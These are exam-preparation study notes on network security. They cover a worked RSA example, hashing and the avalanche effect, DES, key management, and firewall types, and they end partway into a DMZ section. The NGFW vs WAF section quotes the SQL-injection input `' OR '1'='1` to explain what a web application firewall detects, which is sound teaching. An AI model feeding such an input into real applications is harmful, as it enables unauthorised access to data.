- [Breifly Explain Asymmetric encryption.](../written-answers/computer-network-security.md?plain=1#L1191)
- [Distinguish between Symmetric Encryption and Asymmetric Encryption. Give some examples of encryption algorithm. What are the different types of ciphers in crypt…](../written-answers/computer-network-security.md?plain=1#L1221)
- [What is Symmetric and Asymmetric Encryption? Explain with example.](../written-answers/computer-network-security.md?plain=1#L1271)
- [What is symmetric and Asymmetric key explain with example?](../written-answers/computer-network-security.md?plain=1#L1303)
- [What is Cryptography? Difference between Symmetric and Asymmetric encryption with example. Draw and design public key encryption using Hash function. Draw a dia…](../written-answers/computer-network-security.md?plain=1#L1326)
- [Difference between symmetric and asymetric key encryption.](../written-answers/computer-network-security.md?plain=1#L1416)
- [অথবা, (ক) Private key এবং Public key উদাহরণসহ ব্যাখ্যা করুন।](../written-answers/computer-network-security.md?plain=1#L1483)
- [(ii) Symmetric Key Encryption and Asymmetric Key Encryption ব্যাখ্যা করুন।](../written-answers/computer-network-security.md?plain=1#L1569)
- [Difference between private key and public key.](../written-answers/computer-network-security.md?plain=1#L1612)
- [Write two symmetric key algorithm name.](../written-answers/computer-network-security.md?plain=1#L1633)
- [(b) Describe secret key and public key encryption.](../written-answers/computer-network-security.md?plain=1#L1646)
- [Public key cryptography কীভাবে কাজ করে?](../written-answers/computer-network-security.md?plain=1#L1720)
- [What is public key encryption? Explain digital signature with example.](../written-answers/computer-network-security.md?plain=1#L1800)


---

### The RSA Algorithm

**RSA** — named after its inventors **Rivest, Shamir and Adleman (1977)** — is the most widely used **asymmetric (public-key)** algorithm. Its security rests on the fact that **multiplying two large primes is easy, but factoring the product back into those primes is computationally infeasible**.

#### Key generation

| Step | Operation |
|---|---|
| 1 | Choose two large **distinct prime numbers** **p** and **q** (in practice, 1024+ bits each) |
| 2 | Compute **n = p × q** — this is the **modulus**, and its bit length is the "RSA key size" |
| 3 | Compute **φ(n) = (p − 1)(q − 1)** — Euler's totient |
| 4 | Choose **e** such that **1 < e < φ(n)** and **gcd(e, φ(n)) = 1** — commonly **e = 65537** |
| 5 | Compute **d** such that **(d × e) mod φ(n) = 1** — d is the modular multiplicative inverse of e |
| 6 | **Public key = (e, n)** · **Private key = (d, n)** · **Destroy p, q and φ(n)** |

#### Encryption and decryption

> **Encryption: C = Pᵉ mod n** (using the receiver's **public** key)
> **Decryption: P = Cᵈ mod n** (using the receiver's **private** key)

#### A complete worked example with small numbers

**Step 1 — choose primes:** p = **7**, q = **11**

**Step 2 — compute n:** n = 7 × 11 = **77**

**Step 3 — compute φ(n):** φ(n) = (7 − 1)(11 − 1) = 6 × 10 = **60**

**Step 4 — choose e:** we need gcd(e, 60) = 1. Try e = **13** → gcd(13, 60) = 1 ✅

**Step 5 — compute d** such that (d × 13) mod 60 = 1:
- Try d = 37: 37 × 13 = 481; 481 mod 60 = 481 − 480 = **1** ✅
- So **d = 37**

**The keys:** **Public key = (e, n) = (13, 77)** · **Private key = (d, n) = (37, 77)**

**Step 6 — encrypt the message P = 5:**
> C = 5¹³ mod 77
> 5² = 25 · 5⁴ = 25² = 625 mod 77 = 625 − 616 = **9** · 5⁸ = 9² = 81 mod 77 = **4**
> 5¹³ = 5⁸ × 5⁴ × 5¹ = 4 × 9 × 5 = 180 mod 77 = 180 − 154 = **26**
> **Ciphertext C = 26**

**Step 7 — decrypt C = 26:**

> P = 26³⁷ mod 77

Use **repeated squaring** (write 37 = 32 + 4 + 1):

| Power | Working | Result mod 77 |
|---|---|---|
| 26¹ | — | **26** |
| 26² | 26 × 26 = 676; 676 − (77 × 8 = 616) | **60** |
| 26⁴ | 60² = 3600; 3600 − (77 × 46 = 3542) | **58** |
| 26⁸ | 58² = 3364; 3364 − (77 × 43 = 3311) | **53** |
| 26¹⁶ | 53² = 2809; 2809 − (77 × 36 = 2772) | **37** |
| 26³² | 37² = 1369; 1369 − (77 × 17 = 1309) | **60** |

> 26³⁷ = 26³² × 26⁴ × 26¹ = 60 × 58 × 26 mod 77
> 60 × 58 = 3480; 3480 − (77 × 45 = 3465) = **15**
> 15 × 26 = 390; 390 − (77 × 5 = 385) = **5**

> ### ✅ **Decrypted P = 5** — exactly the original message. The round trip works.

*(A smaller set that is quicker to compute under exam pressure: **p = 3, q = 11 → n = 33, φ = 20, e = 7, d = 3**. Encrypting P = 2 gives C = 2⁷ mod 33 = 128 mod 33 = **29**; decrypting gives 29³ mod 33 = 24389 mod 33 = **2** ✅)*

#### Why RSA is secure

The public key reveals **n** and **e**. To find the private key **d**, an attacker must compute **φ(n) = (p−1)(q−1)**, which requires **factoring n back into p and q**. For a 2048-bit n, the best known algorithms would take **longer than the age of the universe** on all the computers on Earth.

#### Uses and limitations

**Uses:** **SSL/TLS certificates and HTTPS** · **digital signatures** · secure key exchange · **PGP/GPG** email encryption · SSH authentication · code signing · e-tender and e-banking authentication.

**Limitations:** **very slow** for bulk data — used only for small payloads and key exchange · needs **large keys** (2048 bits minimum, 3072+ recommended) · vulnerable if **poor random primes** are chosen · requires **padding (OAEP)** to be secure in practice · and it is **breakable by a future quantum computer** running **Shor's algorithm**, which is why post-quantum cryptography is being standardised.

**RSA vs ECC:** Elliptic Curve Cryptography gives **equivalent security with far smaller keys** — a **256-bit ECC key ≈ a 3072-bit RSA key** — making it much faster and better suited to mobile and IoT devices.

**Previous Year Question List from this Topic:**

- [Describe RSA Algorithm and how it works?](../written-answers/computer-network-security.md?plain=1#L1451)
- [Identify the type of algorithm? (i) MD5 (ii) AES (iii) RSA (iv) Diffie-Hellman](../written-answers/computer-network-security.md?plain=1#L1435)


---

### Hashing, and How It Differs from Encryption

#### What is hashing?

**Hashing** is the process of converting an input of **any size** into a **fixed-size string of characters (a hash / message digest / fingerprint)** using a **one-way mathematical function**.

> The defining property: **hashing is IRREVERSIBLE.** There is no "unhash" operation. This is not a limitation — it is the entire point.



#### Properties of a good cryptographic hash function

| Property | Meaning |
|---|---|
| **Deterministic** | The same input **always** gives the same hash |
| **Fixed output size** | Regardless of input size |
| **Fast to compute** | Efficient in one direction |
| **One-way (pre-image resistant)** | Given the hash, it is **infeasible to find the input** |
| **Second pre-image resistant** | Given input x, it is infeasible to find y ≠ x with the same hash |
| **Collision resistant** | It is infeasible to find **any** two different inputs with the same hash |
| **Avalanche effect** | Changing **one bit** of the input changes **about half** the bits of the output |

#### The avalanche effect

> The **avalanche effect** is the property that a **tiny change in the input produces a drastically different, apparently unrelated output** — ideally, flipping one input bit flips about **50 %** of the output bits.

**Demonstration (SHA-256):**

| Input | SHA-256 (first 16 hex characters) |
|---|---|
| `Hello` | `185f8db32271fe25…` |
| `hello` *(only the case of one letter changed)* | `2cf24dba5fb0a30e…` |

The two outputs have **nothing in common**.

> ### "Is the avalanche effect desirable?"
> ### ✅ **YES — it is absolutely essential**, for four reasons:
> 1. **It prevents pattern analysis.** Without it, similar inputs would produce similar hashes, and an attacker could work out how close a guess was — turning a brute-force search into a guided hill-climb.
> 2. **It hides information about the input.** No part of the plaintext can be inferred from any part of the hash.
> 3. **It makes tampering obvious.** Changing a single character of a contract, a transaction or a software download produces a completely different hash, so the alteration cannot be hidden.
> 4. **It underpins collision resistance** and therefore the security of digital signatures, password storage and blockchain.
>
> *(The same property is required of good **block ciphers** — AES is designed so that changing one bit of plaintext or key changes about half the ciphertext bits.)*

#### The main hash algorithms

| Algorithm | Output size | Status |
|---|---|---|
| **MD5** | **128 bits** (32 hex characters) | ❌ **BROKEN** — collisions can be produced in seconds. Never use for security |
| **SHA-1** | **160 bits** | ❌ **BROKEN** (2017, the SHAttered attack). Deprecated |
| **SHA-224 / SHA-256** | 224 / **256 bits** | ✅ **Secure — the current standard** |
| **SHA-384 / SHA-512** | 384 / **512 bits** | ✅ **Secure** — stronger, and faster on 64-bit CPUs |
| **SHA-3 (Keccak)** | 224–512 bits | ✅ Secure — a different internal design, a backup to SHA-2 |
| **bcrypt / scrypt / Argon2 / PBKDF2** | Varies | ✅ **Deliberately SLOW** — designed specifically for **password storage** |

> ### "How many bits is MD5?"
> **MD5 produces a 128-bit (16-byte, 32 hexadecimal character) hash**, regardless of input size. It is **no longer considered secure** — practical collision attacks exist — so it survives only as a **non-security checksum** for detecting accidental file corruption.

#### SHA-256 vs SHA-512

| Point | **SHA-256** | **SHA-512** |
|---|---|---|
| **Output length** | **256 bits** (64 hex chars) | **512 bits** (128 hex chars) |
| **Block size processed** | 512 bits | **1024 bits** |
| **Word size** | **32-bit** words | **64-bit** words |
| **Rounds** | 64 | **80** |
| **Security level (collision)** | 2¹²⁸ | **2²⁵⁶** |
| **Speed on a 64-bit CPU** | Slower | **FASTER** — it uses native 64-bit operations |
| **Speed on a 32-bit CPU** | **Faster** | Slower |
| **Output size** | Compact | Twice as large to store and transmit |
| **Used in** | **Bitcoin, TLS certificates, most general use** | High-security applications, SHA-512/256 truncation |

Both belong to the **SHA-2 family** designed by the NSA and published by **NIST** in 2001, and both remain **unbroken**.

#### Hashing vs Encryption — the key comparison

| Point | **Hashing** | **Encryption** |
|---|---|---|
| **Reversible?** | ❌ **NO — one-way** | ✅ **YES — two-way** |
| **Purpose** | **INTEGRITY** — verify that data has not changed | **CONFIDENTIALITY** — keep data secret |
| **Key required?** | ❌ **No key** (a MAC/HMAC adds one) | ✅ **Yes — always** |
| **Output size** | **FIXED**, regardless of input size | **Varies** with the input size |
| **Can the original be recovered?** | ❌ Never | ✅ Yes, with the key |
| **Main question it answers** | *"Has this changed?"* / *"Does this match?"* | *"Can anyone else read this?"* |
| **Typical use** | **Password storage**, file-integrity checksums, digital signatures, blockchain, data structures | Securing messages, files, disks, network traffic |
| **Algorithms** | **MD5, SHA-1, SHA-256, SHA-512, bcrypt** | **AES, DES, RSA, ECC, Blowfish** |
| **If two inputs give the same output** | A **collision** — a serious flaw | Not applicable |
| **Example** | `password123` → `ef92b778bafe771e…` (cannot be reversed) | `Hello` → `KHOOR` → decrypts back to `Hello` |

> **The classic illustration — password storage.** A website must **never** store your password, encrypted or otherwise, because anyone with the decryption key could recover every password. Instead it stores the **hash**. When you log in, it hashes what you typed and **compares the two hashes**. Even a full database breach does not reveal the passwords — provided the hashes are **salted** and a **slow** algorithm such as **bcrypt** is used.
>
> **Salting** means adding a unique random value to each password before hashing, so that two users with the same password get different hashes, and **precomputed rainbow tables become useless**.

#### Encryption vs Hashing vs Digital Signature — the three-way comparison

| Point | **Encryption** | **Hashing** | **Digital Signature** |
|---|---|---|---|
| **Primary goal** | **Confidentiality** | **Integrity** | **Authentication + Integrity + Non-repudiation** |
| **Reversible** | ✅ Yes | ❌ No | Signature verification, not reversal |
| **Key used** | Shared key, or the **receiver's public key** | **None** | The **sender's PRIVATE key** to sign; **public key** to verify |
| **Output** | Ciphertext (variable size) | Fixed-size digest | A signature block attached to the message |
| **Provides confidentiality?** | ✅ Yes | ❌ No | ❌ **No** — the message stays readable |
| **Provides non-repudiation?** | ❌ No | ❌ No | ✅ **YES — its unique property** |
| **Banking use** | Encrypting card data, PINs, the TLS channel, the database at rest | Storing passwords, verifying file and message integrity, generating transaction fingerprints | **Authorising high-value transfers**, e-tender submissions, signed audit logs, SSL certificates, cheque truncation images |

**How they combine in one secure banking transaction:**
1. The instruction is **hashed** → a digest.
2. The digest is **signed** with the customer's **private key** → proves who authorised it and that it was not altered.
3. The whole package is **encrypted** with the bank's **public key** (or with an AES session key exchanged under TLS) → keeps it confidential in transit.
4. The bank decrypts, re-hashes, verifies the signature with the customer's **public key**, and executes.

**Previous Year Question List from this Topic:**

- [Explain the operational difference between Hashing and Encryption. (SO IT 25-07-2026)](../written-answers/computer-network-security.md?plain=1#L990)
- [What is social engineering? What is hashing? How is it different from encryption?](../written-answers/computer-network-security.md?plain=1#L1042)
- [Write the differences among encryption, hashing, and digital signatures. Mention their uses in cybersecurity.](../written-answers/computer-network-security.md?plain=1#L1101)
- [How many bits MD5 encryption?](../written-answers/computer-network-security.md?plain=1#L1132)
- [6.2 Explain the operational difference between Hashing and Encryption.](../written-answers/computer-network-security.md?plain=1#L1171)
- [What is SHA-256 and SHA-512 in network security, what is avalanche effect, is it desirable or undesirable.](../written-answers/computer-network-security.md?plain=1#L1537)


---

### Identifying Algorithm Types, DES and Key Management

#### Classifying the common algorithms

> *(A very common short question: "Identify the type of each algorithm — MD5, AES, RSA, Diffie-Hellman.")*

| Algorithm | **Type** | Purpose | Key/Output size |
|---|---|---|---|
| **MD5** | **Hash function** (one-way) | Message digest / checksum | **128-bit output**, no key |
| **SHA-256 / SHA-512** | **Hash function** | Message digest | 256 / 512-bit output |
| **AES** | **Symmetric block cipher** | Bulk encryption | 128 / 192 / 256-bit key |
| **DES / 3DES** | **Symmetric block cipher** | Bulk encryption (legacy) | 56-bit / 168-bit key |
| **Blowfish, RC4, IDEA, ChaCha20** | **Symmetric cipher** | Bulk encryption | Varies |
| **RSA** | **Asymmetric** (public-key) | Encryption **and** digital signature | 2048 / 4096-bit key |
| **Diffie-Hellman** | **Asymmetric — KEY EXCHANGE only** | Agreeing a shared secret over an insecure channel. **It cannot encrypt a message** | 2048+ bits |
| **ECC / ECDSA / ECDH** | **Asymmetric** | Encryption, signature, key exchange | 256-bit |
| **DSA** | **Asymmetric — SIGNATURE only** | Digital signatures | 2048+ bits |
| **HMAC** | **Keyed hash (MAC)** | Integrity **and** authentication | Uses a hash + a secret key |
| **bcrypt / Argon2 / PBKDF2** | **Password-hashing function** | Slow, salted password storage | — |

> **The key distinction the examiner is testing:** **MD5 is a HASH (one-way, no key)**; **AES is SYMMETRIC (one shared key)**; **RSA is ASYMMETRIC (key pair, can encrypt and sign)**; **Diffie-Hellman is ASYMMETRIC but is a KEY-EXCHANGE protocol only — it neither encrypts data nor signs it.**

#### SHA vs RSA — a frequently confused pair

| Point | **SHA** | **RSA** |
|---|---|---|
| **What it is** | A **HASH function** | An **asymmetric ENCRYPTION / signature algorithm** |
| **Keys** | **None** | A **public/private key pair** |
| **Reversible** | ❌ **Never** | ✅ Yes, with the private key |
| **Output** | A **fixed-size digest** (160/256/512 bits) | Ciphertext or a signature, the size of the modulus |
| **Provides** | **Integrity** | **Confidentiality, authentication, non-repudiation** |
| **Speed** | **Very fast** | **Slow** |
| **Purpose** | Fingerprinting data | Encrypting keys, signing documents |
| **Used together?** | ✅ **Yes** — in a digital signature, **SHA hashes the document and RSA signs the hash**. Signing the whole document with RSA would be far too slow | |

#### DES — the Data Encryption Standard

**DES** is a **symmetric block cipher** adopted as a US federal standard in 1977, based on IBM's Lucifer cipher.

**The high-level method:**



| Property | Value |
|---|---|
| **Block size** | **64 bits** |
| **Key size** | **56 bits** effective (64 bits including 8 parity bits) |
| **Number of rounds** | **16** |
| **Structure** | **Feistel network** — the same algorithm encrypts and decrypts, only the subkey order reverses |
| **Each round uses** | Expansion (32 → 48 bits), XOR with the subkey, **8 S-boxes** (48 → 32 bits, the only non-linear part), and a permutation |

**Why DES is obsolete:** the **56-bit key gives only 2⁵⁶ ≈ 7.2 × 10¹⁶ possibilities**, which was brute-forced in **22 hours** by the EFF's "Deep Crack" machine in 1999 and takes minutes today. **3DES** (encrypt–decrypt–encrypt with three keys, giving 112-bit effective strength) extended its life, but **AES** replaced both in **2001**.

| Point | **DES** | **AES** |
|---|---|---|
| Block size | 64 bits | **128 bits** |
| Key size | **56 bits** | **128 / 192 / 256 bits** |
| Rounds | 16 | 10 / 12 / 14 |
| Structure | **Feistel network** | **Substitution-Permutation network** |
| Security | ❌ **Broken** | ✅ **Secure** |
| Speed | Slower | **Faster** |
| Year | 1977 | **2001** |

#### Key management and PKI

**The hardest problem in cryptography is not the algorithms — it is managing the keys.**

| Element | Purpose |
|---|---|
| **Key generation** | Using a **cryptographically secure random number generator** — weak randomness has broken many real systems |
| **Key distribution** | Getting keys to the right parties securely (solved for public keys by **certificates**, and for symmetric keys by **key exchange**) |
| **Key storage** | In an **HSM (Hardware Security Module)**, a smart card, or a protected key vault — **never in source code** |
| **Key rotation** | Changing keys periodically limits the damage of a compromise |
| **Key revocation** | **CRL** and **OCSP** publish certificates that are no longer trustworthy |
| **Key destruction** | Secure deletion at end of life |

**PKI (Public Key Infrastructure)** is the complete framework of **hardware, software, policies and procedures** that creates, manages, distributes and revokes **digital certificates**, binding a public key to a verified identity. Its components are the **Certificate Authority (CA)**, the **Registration Authority (RA)**, the **certificate repository**, the **CRL**, and the end entities. *(See the Authentication section for how certificates and signatures work in detail.)*

**Previous Year Question List from this Topic:**

- [The high level method of DES...](../written-answers/computer-network-security.md?plain=1#L1383)
- [Identify the type of algorithm? (i) MD5 (ii) AES (iii) RSA (iv) Diffie-Hellman](../written-answers/computer-network-security.md?plain=1#L1435)
- [Write two symmetric key algorithm name.](../written-answers/computer-network-security.md?plain=1#L1633)
- [What is difference between SHA and RSA algorithm?](../written-answers/computer-network-security.md?plain=1#L4195)

## Firewalls & Network Defense

### Firewall — Concept, Types and Placement

#### What is a firewall?

A **firewall** is a **network security device or software that monitors and controls incoming and outgoing network traffic based on a predetermined set of security rules**, forming a **barrier between a trusted internal network and an untrusted external network** such as the Internet.

> **The analogy:** a firewall is the **security guard at the gate of a building**. Everyone entering or leaving is checked against a list. Those on the list pass; everyone else is turned away — and the guard writes down who came and went.

#### Why a firewall is important

1. **Blocks unauthorised access** from the Internet into the internal network.
2. **Filters malicious traffic** — malware, exploits, port scans, known bad IPs.
3. **Enforces security policy** — which services, ports and applications are permitted.
4. **Prevents data exfiltration** by controlling **outbound** traffic too.
5. **Network segmentation** — isolates departments, servers and the DMZ so a breach cannot spread.
6. **Logging and monitoring** — a complete record for auditing and forensics.
7. **Stops DoS/DDoS traffic** and rate-limits abuse.
8. **Hides the internal network** through **NAT** — internal addresses are never exposed.
9. **Controls user access** — blocks unproductive or dangerous websites.
10. **Regulatory compliance** — a firewall is mandatory under PCI-DSS and the Bangladesh Bank ICT guideline.
11. **VPN termination** for secure remote access.

#### How a firewall works



Every packet is checked against an ordered **rule base (ACL)** using **source IP, destination IP, source port, destination port and protocol**. The first matching rule wins, and the final rule is always an **implicit "deny all"** — anything not explicitly permitted is blocked.

| Rule # | Source | Destination | Port | Protocol | Action |
|---|---|---|---|---|---|
| 1 | Any | Web server (DMZ) | 443 | TCP | **ALLOW** |
| 2 | Any | Web server (DMZ) | 80 | TCP | **ALLOW** |
| 3 | Internal LAN | Any | 53 | UDP | **ALLOW** (DNS) |
| 4 | Any | Internal LAN | Any | Any | **DENY** |
| 5 | Any | Any | Any | Any | **DENY (implicit)** |

#### Types of firewall



#### 1. Packet-filtering firewall

> ### "What is a packet filter?"
> A **packet-filtering firewall** is the **simplest and oldest type**. It examines **each packet in ISOLATION** and permits or drops it based only on the information in the packet's **header** — **source IP, destination IP, source port, destination port and protocol (TCP/UDP/ICMP)** — matched against a static **Access Control List**.
>
> It is **STATELESS**: it keeps **no memory** of previous packets and no concept of a "connection". Each packet is judged entirely on its own.

**Advantages:** **very fast** and low overhead · **cheap** · transparent to users · protects the whole network at one point · built into every router.

**Disadvantages:** **cannot inspect the packet's payload/content**, so it cannot detect malware or an attack hidden inside an allowed protocol · **cannot track connection state**, so it is fooled by **spoofed packets and fragmented attacks** · vulnerable to **IP spoofing** · rule bases become large and hard to manage · **no user authentication** · no logging of application-level activity.

#### 2. Stateful inspection firewall

Maintains a **state table** of every active connection and evaluates each packet **in the context of that connection**.

| Point | **Stateless (Packet Filter)** | **Stateful Inspection** |
|---|---|---|
| **Examines** | Each packet **individually** | Each packet **in the context of its connection** |
| **Tracks connection state?** | ❌ **No** | ✅ **Yes** — a state table of source/destination, ports, sequence numbers and TCP flags |
| **Return traffic** | Must be **explicitly permitted** by a separate rule — which weakens security | **Automatically allowed** if it belongs to an established outbound connection |
| **Layers** | 3 and 4 | 3 and 4, with connection awareness |
| **Security** | **Lower** | **Higher** |
| **Speed** | **Faster** | Slightly slower |
| **Memory use** | Minimal | Higher — the state table must be held |
| **Detects spoofed/out-of-sequence packets** | ❌ No | ✅ **Yes** |
| **Protects against SYN flood** | ❌ Poorly | ✅ Better (can enforce connection limits) |
| **Rule complexity** | High — separate rules for each direction | **Lower** — one rule covers the whole session |
| **Used in** | Simple routers, basic ACLs | **Virtually all modern firewalls** |

> **The practical difference:** with a **stateless** firewall, allowing your staff to browse the web requires a rule permitting inbound traffic on **all high ports** — a large hole. With a **stateful** firewall, one outbound rule is enough: the return packets are recognised as part of a connection the internal user started, and everything else is dropped.

#### 3. Application-level gateway (proxy firewall)

Operates at **Layer 7** and acts as an **intermediary**: the client connects to the proxy, and the proxy makes a **separate connection** to the server. There is **never a direct connection** between inside and outside.

**Advantages:** deep **content inspection** · strong logging and user authentication · hides the internal network completely · can filter by URL, command and content.
**Disadvantages:** **slow** — it terminates and rebuilds every connection · a separate proxy is needed per protocol · can be a bottleneck and a single point of failure.

#### 4. Next-Generation Firewall (NGFW)

An NGFW combines traditional stateful filtering with **deep packet inspection and application awareness**.

| Capability | Traditional firewall | **NGFW** |
|---|---|---|
| **Layers inspected** | 3 and 4 only | **3 to 7 — including the application layer** |
| **Decision based on** | IP address and **port number** | **The actual APPLICATION**, regardless of port |
| **Deep Packet Inspection (DPI)** | ❌ No | ✅ **Yes** — inspects the payload |
| **Built-in IPS** | ❌ No | ✅ **Yes** |
| **User identity awareness** | ❌ No — IP only | ✅ **Yes** — integrates with AD/LDAP to apply rules per *user* |
| **SSL/TLS inspection** | ❌ No | ✅ **Yes** — decrypts, inspects, re-encrypts |
| **Malware / sandboxing** | ❌ No | ✅ Yes |
| **Threat intelligence feeds** | ❌ No | ✅ Yes — automatic updates of known bad indicators |
| **Example** | Basic Cisco ACL, iptables | **Palo Alto, Fortinet FortiGate, Cisco Firepower, Check Point** |

> **Why port-based filtering is no longer enough:** almost everything now runs over **port 443 (HTTPS)** — Facebook, Dropbox, BitTorrent clients, Skype, malware command-and-control. A traditional firewall sees only "port 443, allow". An **NGFW identifies the application itself** and can permit Office 365 while blocking Dropbox, both on the same port.

#### 5. NGFW vs WAF — a frequently asked comparison

| Point | **NGFW (Next-Generation Firewall)** | **WAF (Web Application Firewall)** |
|---|---|---|
| **Protects** | **The whole NETWORK** and all its traffic | **ONE specific web application / web server** |
| **Layers** | **3 – 7** (broad) | **Layer 7 only** (deep) |
| **Position** | At the **network perimeter** | **In front of the web server** (reverse proxy or on the server) |
| **Traffic scope** | **All** protocols — HTTP, FTP, SMTP, DNS, SSH, database, VoIP | **HTTP/HTTPS only** |
| **Attacks blocked** | Network intrusions, malware, port scans, unauthorised applications, DDoS, C2 traffic | **SQL injection, XSS, CSRF, file inclusion, session hijacking, OWASP Top 10, credential stuffing, bot traffic** |
| **Understands** | Applications and users | **HTTP requests, parameters, cookies, headers and the application's logic** |
| **Typical deployment** | Hardware appliance at the edge | Reverse proxy, cloud service (Cloudflare, AWS WAF) or a server module (ModSecurity) |
| **Analogy** | The **security guard at the building's main gate** | The **specialist guard at the bank vault door**, who understands exactly what a legitimate vault transaction looks like |

> **They are complementary, not alternatives.** An NGFW cannot tell that `' OR '1'='1` inside a login form field is a SQL-injection payload — to the NGFW it is just valid HTTPS traffic to an allowed server on an allowed port. A **WAF understands the application's parameters and blocks it**. A secure design uses an **NGFW at the perimeter and a WAF in front of every public web application**.

#### Firewall vs Antivirus

| Point | **Firewall** | **Antivirus** |
|---|---|---|
| **Works at** | The **network** level | The **file / host** level |
| **Protects against** | Unauthorised **network access and traffic** | **Malicious software** already present or arriving |
| **Scope** | The whole network (or one host) | Usually **one computer** |
| **Method** | Filters **packets** against rules | Scans **files** against signatures and behaviour |
| **When it acts** | While data is **in transit** | While a file is **stored or executed** |
| **Stops a virus on a USB stick?** | ❌ **No** — no network involved | ✅ **Yes** |
| **Stops an intruder scanning your ports?** | ✅ **Yes** | ❌ No |
| **Type** | Hardware or software | Software only |
| **Examples** | pfSense, FortiGate, Windows Defender Firewall | Kaspersky, Norton, Bitdefender, Windows Defender Antivirus |

> **Both are essential.** A firewall is the fence around the house; an antivirus is the inspection of everything brought inside. Neither replaces the other.

**Previous Year Question List from this Topic:**

- [What is Packet Filter of Firewall?](../written-answers/computer-network-security.md?plain=1#L1899)
- [Write down the difference between Next-Generation Firewall (NGFW) and Web Application Firewall (WAF)?](../written-answers/computer-network-security.md?plain=1#L1934)
- [Different types of network firewalls. Explain NGFW compared to traditional firewall.](../written-answers/computer-network-security.md?plain=1#L2035)
- [What is Firewall? Discuss about different types of Firewall.](../written-answers/computer-network-security.md?plain=1#L2069)
- [Draw a diagram of LAN including network Firewall. Why is firewall important in network security? List 5 major types of network firewalls. Differentiate between…](../written-answers/computer-network-security.md?plain=1#L2104)
- [What is firewall and why it is used?](../written-answers/computer-network-security.md?plain=1#L2149)
- [What is the function of a firewall?](../written-answers/computer-network-security.md?plain=1#L2166)
- [Write difference between Antivirus and Firewall.](../written-answers/computer-network-security.md?plain=1#L2316)
- [What is firewell? Draw a LAN network to showing firewall.](../written-answers/computer-network-security.md?plain=1#L2337)
- [What is firewall? explain its work. Draw a LAN network and a firewall where firewall will be situated.](../written-answers/computer-network-security.md?plain=1#L2400)
- [What is Stateful and Stateless Firewall?](../written-answers/computer-network-security.md?plain=1#L2437)
- [Write the difference between WPA firewall and Network Firewall.](../written-answers/computer-network-security.md?plain=1#L4313)


---

### DMZ, Proxy Server and Network Segmentation

#### What is a DMZ?

A **DMZ (Demilitarised Zone)**, also called a **perimeter network** or **screened subnet**, is a **separate network segment placed between the untrusted Internet and the trusted internal LAN**, which hosts the organisation's **public-facing servers**.

> **The purpose:** public servers must be reachable from the Internet, but if one of them is hacked, the attacker must **NOT** gain direct access to the internal network. The DMZ is the buffer that guarantees this.

#### The standard DMZ architecture — dual firewall (screened subnet)

